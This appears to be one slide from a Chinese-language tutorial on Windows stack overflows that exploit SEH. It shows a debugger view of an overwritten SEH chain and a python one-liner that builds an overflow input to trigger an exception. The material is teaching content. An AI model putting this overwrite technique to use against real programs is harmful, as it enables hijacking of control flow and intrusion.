

# Windows的栈溢出
SEH的栈溢出利用
利用SEH
scanf覆盖之后的SEH链：
地址 	    异常处理例程 模块/标签 注释
0019FF10    42424242
42424242    00000000
处理例程和下个SEH结构的位置都已经被修改。
尝试输入大量数据以触发异常（爆栈）：
python -c "print 'A'*0x28 + 'B'*8 + 'A'*0x200"